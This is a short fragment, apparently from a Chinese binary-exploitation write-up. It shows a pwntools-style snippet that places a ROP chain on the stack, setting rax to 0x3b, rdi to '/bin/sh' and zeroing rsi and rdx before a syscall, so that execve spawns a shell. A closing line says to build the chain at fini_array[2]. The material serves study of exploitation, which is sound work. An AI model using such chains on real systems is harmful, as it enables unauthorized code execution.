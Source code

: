 [![](assets/1706959474-482baf25186d23ad5b38aa974c36a8a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125152250-8c02fe92-bb52-1.png)

```plain
write(esp,p64(rax))
write(esp+8,p64(0x3b)) 
write(esp+16,p64(rdi)) 
write(esp+24,p64(bin_sh))
write(esp+32,p64(rsi))
write(esp+40,p64(0))
write(esp+48,p64(rdx))
write(esp+56,p64(0))
write(esp+64,p64(syscall))
```

然后在 fini\_array\[2\]处构造 rop 即可
